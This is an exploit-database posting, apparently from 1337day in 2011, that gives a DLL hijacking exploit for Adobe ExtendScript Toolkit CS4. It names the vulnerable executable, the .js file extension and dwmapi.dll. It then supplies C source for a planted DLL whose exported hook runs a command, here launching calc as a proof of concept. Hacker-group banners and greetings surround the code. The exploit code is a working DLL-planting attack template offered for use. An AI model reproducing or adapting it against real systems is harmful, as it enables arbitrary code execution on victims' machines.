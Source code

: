 EXP
---

    1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
    0     _                   __           __       __                     1
    1   /' \            __  /'__`\        /\ __  /'__`\                   0
    0  /_, \    ___   /_\/_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
    1  \/_/\ \ /' _ `\ \/\ \/_/__<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
    0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ __/\ \ _\ \ _\ \ \ \/           1
    1      \ _\ _\ __\ \ \ ____/\ ____\\ __\\ ____/\ _\           0
    0       \/_/\/_/\/_/\ _\ \/___/  \/____/ \/__/ \/___/  \/_/           1
    1                  \ ____/ >> Exploit database separated by exploit   0
    0                   \/___/          type (local, remote, DoS, etc.)    1
    1                                                                      1
    0  [+] Site            : 1337day.com                                  0
    1  [+] Support e-mail  : submit[at]1337day.com                        1
    0                                                                      0
    1               #########################################              1
    0               I'm kalashinkov3 member from Inj3ct0r Team              1
    1               #########################################              0
    0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1

    #########################################################
    # Title : Adobe ExtendScript Toolkit CS4 DLL Hijacking Exploit
    # Author: Kalashinkov3
    # Home : 13000/ ALGERIA / 1337day.com
    # Email : kalashinkov3[at]Hotmail[dot]Fr
    # Date : 26/06/2011
    # Category  : Local Exploit
    # Tested on: [Windows Xp Sp3 Fr]
    #########################################################

    # File Vulnerable:

    - ExtendScript Toolkit.exe

    # Vulnerable extensions:

    - .js

    # Vulnerable Dll's:

    - dwmapi.dll




    ./

    #include <windows.h>
    #define DllExport __declspec (dllexport)

    DllExport void hook_startup() { exp(); }

    int exp()
    {
      WinExec("calc", 0);
      exit(0);
      return 0;
    }



    ^_^ GOOD LUCK ALL :)

    + Greets To==================================================================+
                                                                                 +
    BrOx-dz, KedAns-Dz, Caddy-Dz, KnocKout, toxic-kim, [Lila Far=>D], Keinji1258 +
    ALLA Foundou,586, 1337day.com, packetstormsecurity.org, Exploit-id.com       +
    andhrahackers.com, 1337day.com/team, id-backtrack.com, dis9.com/team         +
                   # all Algerians Hacker'S ;), All My Friends #                 +
                            <3 I Love You Lila  <3                               +
                                                                                 +
    =============================================================================+